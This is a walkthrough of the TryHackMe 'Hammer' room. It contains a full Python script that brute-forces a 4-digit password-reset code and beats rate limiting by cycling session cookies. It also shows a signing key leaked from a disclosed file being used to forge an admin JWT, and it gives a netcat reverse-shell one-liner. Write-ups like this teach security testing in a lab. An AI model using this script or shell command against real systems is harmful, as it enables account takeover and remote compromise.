# Hammer

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/hammer)

*With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?*

---

## Reconnaissance

I started with an `nmap` scan to determine which ports were open:



The scan revealed that ports 22 and 1337 were open. I followed up with a more detailed scan, enumerating service versions and running nmap's default scripts:



SSH was running on port 22 with `OpenSSH 8.2p1`, and port 1337 hosted a web page on `Apache 2.4.41`. The `HttpOnly` flag on `PHPSESSID` wasn't set, which could be a possible attack vector. Next, I navigated to the web page and was presented with a login page. I viewed the page source, which had a comment the developer forgot to remove:

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

Thanks to that, I knew the directory naming convention. I decided to enumerate directories with `feroxbuster`, but first I created a custom wordlist using a simple Python script:

```python
with open("directories.txt", "w") as dir, open("/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt", "r") as f:
        for line in f:
                directory = line.strip()
                dir.write(f"hmr_{directory}\n")
```

I ran a `feroxbuster` scan and found one interesting endpoint:



The directory enumeration revealed an `/hmr_logs/error.logs` endpoint. I visited it, and it contained error messages:



The error messages revealed one email address, `tester@hammer.thm`, and a few endpoint names, such as `/admin-login` and `/restricted-area`. I tried visiting them, but they didn't exist.

---

## Initial Access

The login page had a hyperlink to a password reset page:



I navigated to the password reset page and submitted the tester's email address. The application responded with a prompt requesting a 4-digit verification code, required to proceed with resetting the password:



This confirmed that the email found in `error.logs` was valid. I tried to brute-force the OTP page. First, I generated a list of all possible codes with Python:

```python
with open("codes.txt", "w") as f:
        for a in range(0,10):
                for b in range(0,10):
                        for c in range(0,10):
                                for d in range(0,10):
                                        f.write(f"{a}{b}{c}{d}\n")
```

Then I captured the request using Burp Suite. I then noticed that a straightforward brute-force wouldn't work, because of rate limiting:



With every request, the `Rate-Limit-Pending` value decreased by one. When it reached zero, further requests weren't possible:



So a classic brute-force attack wasn't going to work. That's why I wrote a custom Python script that brute-forces the OTP code, but requests a new `PHPSESSID` whenever the rate limit is hit, resetting the counter:

<details>
<summary>Click to see more</summary>
<pre><code>
import requests

ip = "10.80.134.14"

which_code = 0

codes = []

def load_codes():	
	with open("codes.txt", "r") as f:
		for line in f:
			codes.append(str(line.strip()))
def get_cookie(): # Generates a new PHPSESSID
	url = f"http://{ip}:1337/reset_password.php"

	data = {
    	"email": "tester@hammer.thm"
	}

	headers = {
    	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
    	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    	"Accept-Language": "en-US,en;q=0.5",
    	"Accept-Encoding": "gzip, deflate, br",
    	"Origin": f"http://{ip}:1337",
    	"Referer": f"http://{ip}:1337/reset_password.php",
	}

	r = requests.post(url, headers=headers, data=data, allow_redirects=False)

	return(r.cookies.get("PHPSESSID"))

def brute_code():
	url = f"http://{ip}:1337/reset_password.php"

	headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Origin": f"http://{ip}:1337",
        "Referer": f"http://{ip}:1337/reset_password.php",
        "Cookie" : "PHPSESSID="
	}
	
	cookie = get_cookie()
	headers["Cookie"] = f"PHPSESSID={cookie}"

	data = {
	"recovery_code" : "code_value"
	}
	
	for i in range(0,8):
		global which_code
		code = codes[which_code]
		data["recovery_code"] = code
		r = requests.post(url, headers=headers, data=data, allow_redirects=False)
		if "Invalid or expired recovery code!" in r.text:
			which_code += 1
			continue
		else:
			print("[+] Valid code found!")
			return code, cookie
	return None, None
def main():
	load_codes()
	valid_code, valid_cookie = brute_code()
	while valid_code == None and valid_cookie == None:  
		valid_code, valid_cookie = brute_code()
		if valid_code and valid_cookie:
			print(f"PHPSESSID = {valid_cookie}\nCode = {valid_code}")
			break
		else:
			continue 
if __name__  == "__main__":
	main()
</pre></code>
</details>

After running the script, it successfully found a valid `PHPSESSID` and code:



After that, I replaced my `PHPSESSID`, entered the valid code, and was able to reset the password:



 I changed the password, logged in, and obtained the first flag:


---

## Remote Code Execution

After a couple of seconds, I got logged out. To find out why, I inspected the source code:



The `persistentSession` flag wasn't set to `True` for me, which explained why I kept getting logged out. The dashboard panel had an option to execute commands. I captured a command request with Burp Suite and investigated the feature further. I couldn't use commands like `cat` or `whoami`, but I could use `ls`:



This showed that a `.key` file existed. I downloaded it by navigating to `http://MACHINE_IP:1337/REDACTED.key`, and it contained a key value. I noticed that the requests used a JWT, which I decoded using jwt.io:



I figured that if I forged a new token with `role` set to `admin`, signed with the value from the `.key` file, I might be able to issue more commands. I generated a custom JWT:



I swapped in the new token and issued `whoami`. It worked:



I used the command execution to run a reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc MACHINE_IP 4444 >/tmp/f
```

I caught a connection and obtained the second flag:



---

## Kill Chain

This box was built around small information leaks feeding into bigger bypasses. A leftover developer comment gave away the site's directory naming convention, which made it possible to build a custom wordlist and uncover a logs endpoint. That endpoint leaked a valid email address, enough to kick off a password reset. The OTP step looked solid on its own, since brute-forcing it directly hit a hard rate limit — but since a fresh session reset that limit, cycling `PHPSESSID`s on every lockout turned the "secure" 4-digit code into a fully brute-forceable one.

Password reset access only gave a flag, not a stable foothold, since the session wasn't persistent — but the dashboard's command-execution feature became the real way in once a disclosed `.key` file turned out to be the signing key for the app's own JWTs. Forging an admin token with that key removed whatever restrictions were blocking commands like `cat` and `whoami`, and from there a reverse shell was trivial.

`Leaked directory convention → leaked email (error.logs) → OTP brute-force via session cycling → password reset → disclosed JWT signing key → forged admin JWT → command execution → reverse shell`

- **Information Disclosure:** Developer comment + `error.logs` → directory naming convention and a valid admin email
- **Initial Access:** Rate limit bypassed by requesting a fresh `PHPSESSID` per attempt → brute-forced OTP → password reset → login, first flag
- **Privilege Escalation (app-level):** Disclosed `.key` file → JWT signing key → forged admin token → unrestricted command execution
- **Remote Code Execution:** Command execution feature → reverse shell, second flag

> Thanks for reading!